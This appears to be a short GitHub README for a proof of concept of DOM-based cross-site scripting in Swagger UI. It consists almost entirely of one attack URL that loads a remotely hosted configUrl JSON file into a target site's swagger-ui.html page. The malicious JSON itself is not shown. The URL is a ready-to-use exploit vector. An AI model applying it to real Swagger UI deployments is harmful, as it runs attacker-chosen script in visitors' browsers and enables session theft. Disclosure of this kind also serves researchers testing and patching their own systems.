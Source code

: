 # PoC-of-Swagger-UI-DOM-XSSS

https://website/swagger-ui.html?configUrl=https://raw.githubusercontent.com/mtkilicc/PoC-of-Swagger-UI-DOM-XSSS/main/test.json
